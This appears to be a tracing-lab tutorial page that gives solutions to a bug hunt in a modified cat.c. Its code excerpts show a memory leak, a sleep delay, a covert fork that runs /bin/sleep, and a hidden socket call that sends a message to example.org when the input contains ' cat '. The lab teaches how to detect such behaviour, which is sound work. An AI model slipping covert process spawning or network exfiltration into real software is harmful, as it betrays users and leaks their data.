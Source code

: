 ### Solutions to the Bug Hunt

The `cat` file had 4 more or less obvious problems/issues. This is a teaching use case, meant to show some potential issues in a very very simple program. "Real" issues will be a lot harder to find in a much more complex code base. But the tools are the same.

- - -

#### Bug #1: memory leak

As mentioned in a previous lab, TraceCompass does not claim to be a memory leak finder. `Valgrind` would do a better job in this case and pinpoint the exact line of the leaked memory allocation. But we can observe it in TraceCompass and see where/when in the execution the leak may have happened.

![Bug Hunt Memory Leak](screenshots/memoryLeak.png "Bug Hunt: Memory Leak")

This happens in the `cat.c` file at line 769

```c
769    test = malloc(1000);
770    printf("That's a custom-compiled cat for tutorial purposes %s", test);
771    inbuf = xmalloc (insize + 1 + page_size - 1);
772    test = inbuf;  // Losing my pointer
```

- - -

#### Bug #2: An "optimization loop" of usleep

When developing, it's often convenient to add some latency at some places to avoid a race condition or make sure some other condition is met. The techniques used are sometimes... dubious... One of them is adding sleeps in the code. We can see those with TraceCompass. The critical path shows a `Timer` state for those and the thread is blocked.

![Bug Hunt Optimization Loop](screenshots/optimizationLoop.png "Bug Hunt: Optimization Loop")

This happens in the `cat.c` file in the `next_line_num` function at line 175:

```c
132    static void
133    next_line_num (void)
134    {
         ....
174      // Optimization loop, remove when we need more perf ;-)
175      usleep(100);
176    }
```

- - -

#### Bug #3: Spawning a process!

Most complex applications today are multi-threaded so we expect to see a lot of children to a given process. But could one of those children be a malicious one? TraceCompass shows all the hierarchy of processes and threads, so in doubt, it is possible to examine one in particular and see what it does.

In our case, `cat` is not expected to have any children, but it has, and more than one.

* Some are named `cat-ust`. Looking at their critical path, we see it interacts with `lttng-consumerd`. Since we are explicitly tracing `cat` with `lttng-ust`, this behaviour would be normal in this case. Everythin happens before the call to main, so it's the libraries preloading.

* We also observe a `sleep` process being spawned during execution, in the middle of a `next_line_num` function. That is not normal. `sleep` is harmless here, but a malicious application could start a key logger process for instance.

![Bug Hunt Spawn Process](screenshots/spawnProcess.png "Bug Hunt: Spawn Process")

This happens in the `cat.c` file in the `next_line_num` function from line 136 to 158:

```c
136    if ((endp - line_num_start) == 2 && execDone == 0) {
137      // This file looks long enough, let's subrepticiously start a thread hehehe
138      pid_t process = fork();
139
140      if (process < 0){
141        //fork error, oops, just be quiet...
142      }
143      if (process == 0){
144        char cmd_exec[11] = "/bin/sleep";
145        char time_sec[2] =  "5";
146        char* argv[2];
147
148        argv[0] = cmd_exec;
149        argv[1] = time_sec;
150
151        execv("/bin/sleep", (char *[]){ cmd_exec, time_sec, NULL });
152        fprintf(stderr, "\n********************\n");
153        fprintf(stderr, " Unable to exec %s: %d\n", argv[0], errno);
154        fprintf(stderr, "********************\n");
155        exit(1);
156      }
157      execDone = 1;
158    }
```

- - -

#### Bug #4: Subrepticious Phone Home

Computer systems, from smart phones to data centers, store a lot of very sensitive/personal data, that can be of interest to many attackers. It may be tempting for some attackers to add some code snippets to leak this precious data. With TraceCompass and the critical path, we can observe network connections and messaging. Of course, the implementation here is naive. If I were to write such a code, I'd make sure it is not obvious like this one, but... not all attackers are smart or know about this?

Here, we do not expect `cat` to do any network connection, unless we are catting a file from the network, which we aren't. So those network connections are fishy.

![Bug Hunt Phone Home](screenshots/phoneHome.png "Bug Hunt: Phone Home")

This happens in the `cat.c` file in the `cat` function from line 513 to 533:

```c
513    if (bpin + 5 < eob && *bpin == ' ' && *(bpin + 1) == 'c' && *(bpin + 2) == 'a' && *(bpin + 3) == 't' && *(bpin + 4) == ' ') {
514      // omg, he said ' cat ', we need to tell the boss
515      int sockfd = 0,n = 0;
516      char sendBuff[1024] = "Hey boss, this user said cat, that's not right";
517      struct sockaddr_in serv_addr;
518
519      if((sockfd = socket(AF_INET, SOCK_STREAM, 0))> 0)
520        {
521          serv_addr.sin_family = AF_INET;
522          serv_addr.sin_port = htons(80);
523          serv_addr.sin_addr.s_addr = inet_addr("93.184.216.34");      // www.example.org
524
525          if(connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr))>=0)
526            {
527              n = write(sockfd, sendBuff, sizeof(sendBuff)-1);
528              if (n < 0) {
529                // Couldn't tell boss, that's too bad
530              }
531            }
532        }
533    }
```

- - -

#### Next

* [Network Tracing: Tracing Multiple Machines Together](../301-tracing-multiple-machines)
or
* [Back](../) for more options
